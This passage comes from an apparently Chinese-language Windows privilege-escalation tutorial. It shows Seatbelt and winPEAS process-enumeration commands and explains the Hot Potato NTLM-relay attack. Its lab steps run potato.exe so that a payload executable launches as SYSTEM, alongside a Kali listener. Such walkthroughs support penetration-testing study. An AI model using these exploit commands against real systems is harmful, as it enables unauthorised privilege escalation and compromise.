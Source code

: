 ```php
.\seatbelt.exe NonstandardProcesses
```

![image-20210723101152597](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b389280df4976e98eac8883e044e38148b4bceca.png)

### winPEASany也可以

```php
.\winPEASany.exe quiet procesinfo
```

![image-20210723101217321](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7892ce3ddcd57f4c186b2c94d7fce657a7f9b9bb.png)

Hot Potato
==========

前言
--

Hot Potato是使用欺骗攻击的攻击的名称

同时进行NTLM中继攻击以获得系统权限。

该攻击诱使Windows作为系统进行身份验证

用户使用NTLM访问一个假的HTTP服务器。NTLM凭据

然后NTLM凭据将其转告到SMB以获得命令执行。

漏洞范围
----

此攻击适用于Windows 7、8和早期版本的Windows 10

实操(win7)
--------

### 1.将potato.exe复制到Windows上.

### 2.开启kali的监听

### 3.运行exp

```php
.\potato.exe -ip 192.168.175.228 -cmd "C:\Users\user\Desktop\a002.exe" - enable_httpserver true -enable_defender true -enable_spoof true - enable_exhaust true
```

### 4. 等待Windows Defender更新，或手动触发更新

令牌模拟
====

服务账户
----

